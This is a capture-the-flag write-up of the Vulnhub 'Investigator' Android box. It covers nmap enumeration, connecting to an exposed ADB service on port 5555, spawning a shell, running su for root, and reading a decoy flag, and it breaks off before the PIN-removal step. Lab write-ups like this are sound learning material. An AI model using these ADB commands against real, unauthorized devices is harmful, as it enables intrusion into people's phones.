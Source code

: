 ```yaml
---
title: Vulnhub - Investigator
description: My writeup on Investigator box.
categories:
 - vulnhub
tags: vulnhub android
---
```


![](https://hackersfun.com/wp-content/uploads/2019/03/evil-android.jpg)

Hi all, firstly i didnt want to try this box because i have no idea how to pentest/hack an android box. In real life i don't even use/have a smart phone but then i say to myself it's a great way to learn something new, so let's pwn it!

You can find the machine there > [Investigator](https://www.vulnhub.com/entry/investigator-1,504/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.10
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-06 01:52 EEST
Nmap scan report for android-25abe18209db8058.zte.com.cn (192.168.1.10)
Host is up (0.00025s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
5555/tcp  open  adb     Android Debug Bridge device (name: android_x86; model: VMware Virtual Platform; device: x86)
8080/tcp  open  http    PHP cli server 5.5 or later
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Welcome To  UnderGround Sector
22000/tcp open  ssh     Dropbear sshd 2014.66 (protocol 2.0)
| ssh-hostkey: 
|   2048 19:e2:9e:6c:c6:8d:af:4e:86:7c:3b:60:91:33:e1:85 (RSA)
|_  521 46:13:43:49:24:88:06:85:6c:75:93:73:b5:1d:8f:28 (ECDSA)
MAC Address: 00:0C:29:37:42:7C (VMware)
Service Info: OSs: Android, Linux; CPE: cpe:/o:linux:linux_kernel
```

port `5555` seems suspicious, i did some research on it and i found a way to exploit it. :)

port `5555` == adb service, adb (Android Debug Bridge) can control your device over USB or wireless by enabling a daemon server at port 5555.

Install adb: `sudo apt-get install adb`

Now let's exploit it, first we need to connect on target:

```
$ adb connect $ip:5555
connected to 192.168.1.10:5555
```

Now let's spawn a shell:

```
$ adb shell
uid=2000(shell) gid=2000(shell) groups=1003(graphics),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)@x86:/ $ 
```

Bingo! That simple, we can even simplier take a root shell:

```
$ su
uid=0(root) gid=0(root)@x86:/ # 
```

Now because i have no idea how android file system is working, i decided to search for the root directory:

```
uid=0(root) gid=0(root)@x86:/ # find / -type d -name "root"
/data/root
```

We can see a `flag.txt` there:

```
uid=0(root) gid=0(root)@x86:/ # cd /data/root
uid=0(root) gid=0(root)@x86:/data/root # ls
flag.txt
uid=0(root) gid=0(root)@x86:/data/root # cat flag.txt
Great Move !!! 

Itz a easy one right ???

lets make this one lil hard


You flag is not here  !!!     


Agent "S"   Your Secret Key ---------------->259148637
```

Here i stuck, i was searching for the flag for loooot of hours & then i deleted the box i said OK i got root shell i can't find the real flag. Today i had a chat with a friend on this box and we both stuck finding the real flag, i told him that you can remove the pin using adb shell. After some minutes he found the real flag! Shout out to @Freakazoid without him i wasn't able to gain the real flag! :D

Now as you can see, the android box asks for a PIN:


